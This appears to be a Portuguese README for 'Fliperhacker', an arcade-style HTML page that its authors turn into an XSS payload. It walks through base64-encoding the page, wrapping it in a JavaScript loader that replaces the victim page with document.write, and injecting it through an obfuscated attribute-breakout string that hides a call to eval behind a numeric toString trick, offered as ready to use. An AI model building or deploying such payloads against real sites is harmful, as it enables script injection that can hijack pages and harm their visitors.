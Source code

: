 # Fliperhacker
Uma simples página em html  estilo fliperama feita para jogar  alguns dos games que fizemos  em forma de payload para XSS.

! Para tornar este index.html em um payload, não se esqueça de: 

*Encodar ela em base 64. colar o resultado do base64 aqui

	document.addEventListener("DOMContentLoaded", function(event) {

    var pocpage = "base64 aqui";

    document.open();

    document.write(atob(pocpage));

    document.close();
    });;
    
Após isso, refaça o encode desse código js e cole o resultado aqui
 
 "><svg/onload=window[490837..toString(1<<5)](atob('o que fica aqui dentro deverá ser decodificado em base64'))>xui.vm"
 
 e estará pronto para ser usado :)
